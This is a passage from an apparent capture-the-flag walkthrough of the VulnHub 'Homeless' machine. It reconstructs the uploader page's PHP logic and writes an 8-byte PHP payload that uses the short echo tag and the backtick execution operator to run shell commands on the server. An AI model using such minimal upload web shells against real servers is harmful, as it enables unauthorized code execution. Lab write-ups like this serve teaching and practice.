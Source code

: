 ### Uploader Page

Navigating to `/myuploader_priv` revealed the uploader page.

![screenshot-5](/assets/images/posts/homeless-walkthrough/screenshot-5.png)

After some tinkering with the uploader page, this is what I observed:

* The file must be 8 bytes or less; and
* Any content type can be uploaded; and
* A fresh upload will replace the previous one.

This is how I imagined the PHP code of the uploader page to look like.

{% highlight php linenos %}
<?php
    if (!empty($_FILES['upme']['name'])) {
        $path = "files/";

        if ($_FILES['upme']['size'] > 8) {
            echo "Your file is too large";
        } else {
            array_map("unlink", glob($path . "*"));
            $index = fopen($path . "index.php", "w");
            fclose($index);
            $path = $path . basename($_FILES['upme']['name']);
            move_uploaded_file($_FILES['upme']['tmp_name'], $path);
            echo "File uploaded. Find the secret file on server .. " . $path;
        }
    }
?>
{% endhighlight %}

### PHP Tags and Execution Operators

Gathering the restrictions from above, the challenge now is to write a short and valid PHP code of no more than 8 bytes. Fortunately, PHP supports [short open tag][5] (<tt><?=</tt>) and [execution operators][6] (<tt>\`&hellip;\`</tt>). Using these 2 short forms, I was able to squeeze in 8 bytes of valid PHP code to list the files in `/myuploader_priv/files` like so.

```
echo -n '<?=`ls`;' > test.php
```

![screenshot-6](/assets/images/posts/homeless-walkthrough/screenshot-6.png)


[1]: https://www.vulnhub.com/entry/homeless-1,215/
[2]: http://www.creatigon.com/
[3]: https://www.vulnhub.com
[4]: https://www.gnu.org/software/parallel/
[5]: http://php.net/manual/en/language.basic-syntax.phptags.php
[6]: http://php.net/manual/en/language.operators.execution.php
[7]: https://sfrolov.io/2016/09/multiple-md5-collisions
[8]: https://en.wikipedia.org/wiki/Percent-encoding